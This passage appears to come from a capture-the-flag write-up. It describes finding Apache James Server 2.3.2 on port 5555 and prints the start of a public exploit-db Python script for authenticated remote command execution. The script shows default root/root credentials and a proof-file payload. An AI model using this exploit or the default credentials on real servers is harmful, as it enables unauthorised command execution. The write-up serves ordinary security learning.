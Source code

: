 ![Untitled](uploads/Untitled.png)

I had not find anything on the website.

### Email Enumeration

On port 5555, I found the server banner “JAMES Remote Administration Tool 2.3.2” which is a vulnerable version and I got an exploit from [exploit-db](https://www.exploit-db.com/exploits/35513)

![Untitled](uploads/Untitled%201.png)

Exploit -

```python
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'
```